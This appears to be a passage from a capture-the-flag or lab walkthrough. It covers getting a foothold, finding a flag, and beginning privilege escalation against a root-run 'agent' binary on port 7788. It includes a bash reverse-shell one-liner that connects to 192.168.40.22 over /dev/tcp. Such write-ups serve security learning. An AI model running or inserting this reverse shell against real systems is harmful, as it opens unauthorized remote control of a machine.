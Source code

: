 ### Reverse Shell

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.40.22/443 <&1'
```

### Flag Discovery

![System Flag](images/Pasted%20image%2020251005180142.png)

**Flag Content (Base64)**: agentservices

## Privilege Escalation

### Binary Discovery

```bash
find / -name agent 2>/dev/null
```

**Binary Details**:
- Architecture: x32 LSB
- Running as: root
- Exposed port: 7788

### Reverse Engineering with Ghidra

![Ghidra Analysis](images/Pasted%20image%2020251005193732.png)
